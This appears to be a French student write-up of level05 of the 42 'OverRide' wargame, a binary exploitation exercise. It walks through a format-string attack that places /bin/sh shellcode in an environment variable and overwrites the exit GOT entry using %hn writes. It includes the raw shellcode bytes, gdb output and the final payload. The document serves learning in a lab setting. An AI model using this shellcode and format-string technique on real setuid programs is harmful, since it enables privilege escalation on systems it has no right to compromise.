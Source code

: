 # Override
Override 42 security level05

```
level05@OverRide:~$ ls
level05
level05@OverRide:~$ ./level05
test
test
level05@OverRide:~$ ./level05
TeTs
tets
level05@OverRide:~$
```

On a un programme plutot simple qui réécrit notre chaine en lower et qui exit à la fin et ne return pas.
Après avoir lower notre chaine, le buffer est renvoyé à printf qui l'affiche.
Comme dans Rainfall nous allons vouloir ajouter notre Shellcode en variable memoire.

Pour info, on ne peut pas utiliser une attaque comme precedemment car:
```
level05@OverRide:~$ gdb ./level05
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/users/level05/level05...(no debugging symbols found)...done.
(gdb) b * main
Breakpoint 1 at 0x8048444
(gdb) p system
No symbol table is loaded.  Use the "file" command.
```
Pas de call à system :).

Trouvons nos différents elements pour construire notre attaque:
```
info function exit
Non-debugging symbols:
0x08048370  exit
0x08048370  exit@plt

(gdb) disas 0x08048370
Dump of assembler code for function exit@plt:
   0x08048370 <+0>:	jmp    *0x80497e0
   0x08048376 <+6>:	push   $0x18
   0x0804837b <+11>:	jmp    0x8048330
```
Nous utiliserons le premier.

On export notre shellcode:
```
export SHELLCODE=$(python -c "print '\x90' * 500 + '\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'")
gdb ./level05
b * main
Breakpoint 1 at 0x8048444
(gdb) r
Starting program: /home/users/level05/level05

Breakpoint 1, 0x08048444 in main ()
0xffffd689:	 "/home/users/level05/level05"
0xffffd6a5:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
0xffffd76d:	 "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
0xffffd835:	 "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\311\367\341Qh//shh/bin\211\343\260\v\315\200"
```

Maintenant trouvons l'offset à laquelle notre string est stockée.
```
python -c "print 'aaaa' + ' %x ' * 16" | ./level05
aaaa 64  f7fcfac0  0  0  0  0  ffffffff  ffffd514  f7fdb000  61616161  20782520  20782520  20782520  20782520  20782520  20782520
61616161 -> 10
```

Au vu de l'adresse de la variable d'environement qui est très grande en décimale, nous choisissons de l'écrire en 2 fois.
Donc:
```
0xffffd76d = 4294956909
# On la split en 2: ffff = 65535 | d777 = 55149
1ere partie = d777 - 8 ( les 2 adresses ecrites avant) = 55148
Seconde partie = ffff - 55149 = 10386
python -c 'print "\xe0\x97\x04\x08"+"\xe2\x97\x04\x08"+"%55148d"+"%10$hn"+"%10386d"+"%11$hn"'
```

